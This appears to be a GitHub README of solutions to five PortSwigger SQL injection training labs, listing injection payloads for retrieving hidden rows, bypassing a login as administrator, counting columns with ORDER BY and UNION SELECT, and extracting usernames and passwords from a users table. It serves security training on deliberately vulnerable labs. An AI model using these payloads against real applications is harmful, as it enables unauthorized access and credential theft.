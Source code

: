 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*
   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*
   >The first step of such an attack is to determine the number of columns that are being returned by the query.
   >The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*
   >The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
   >Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*
   >By appling `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   >By appling `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
   >To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
   >where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database
   __Example__
   Database name :   USERS 
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

    >Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

